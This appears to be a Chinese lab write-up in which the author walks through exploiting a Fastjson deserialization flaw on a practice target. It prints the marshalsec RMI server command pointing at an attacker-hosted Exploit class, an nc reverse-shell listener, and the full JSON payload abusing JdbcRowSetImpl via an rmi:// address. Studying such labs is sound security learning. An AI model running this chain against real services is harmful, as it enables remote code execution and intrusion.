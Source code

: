 借助marshalsec项目，启动一个RMI服务器，监听9999端口，并制定加载远程类：

```powershell
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer “http://192.168.0.193:8000/#Exploit” 9999

```

![image-20211016192838467](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016192838467.png)

接着开启nc监听端口8002：.\nc.exe  -lvvp 8002

![image-20211016193405930](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016193405930.png)

通过BurpSuite抓包

右键change request method 变更请求方法

构造payload，向靶场发送Payload：

```html
Host: 靶机ip:靶机端口
Accept-Encoding: gzip, deflate
Accept: /
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 267

{
“a”:{
“@type”:“java.lang.Class”,
“val”:“com.sun.rowset.JdbcRowSetImpl”
},
“b”:{
“@type”:“com.sun.rowset.JdbcRowSetImpl”,
“dataSourceName”:“rmi://攻击机ip:9999/Exploit”,
“autoCommit”:true
}
}
```

操作的时候发现我一直都是不正确的

后来发现是我的8000端口下的文件没有Exploit.class文件

而exp里面需要用到这个文件

查了半个小时怎么编译生成class文件  = =

终于好了

![image-20211016204224539](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016204224539.png)

总的来说

给靶机发送post包来调用0我们本机的9999上的文件

而9999端口实际上是我们通过python监听和提供8000端口映射转发到RMI服务器上的

最终调用的还是本机的Exploit.java和Exploit.class

然后通过运行有调用到真正的nc监听端口8002

![image-20211016204837381](https://cd-1307445315.cos.ap-nanjing.myqcloud.com/CD%5Cimage-20211016204837381.png)



这篇花了挺久的，反序列化感觉就是难且不敢手动做，值得三刷

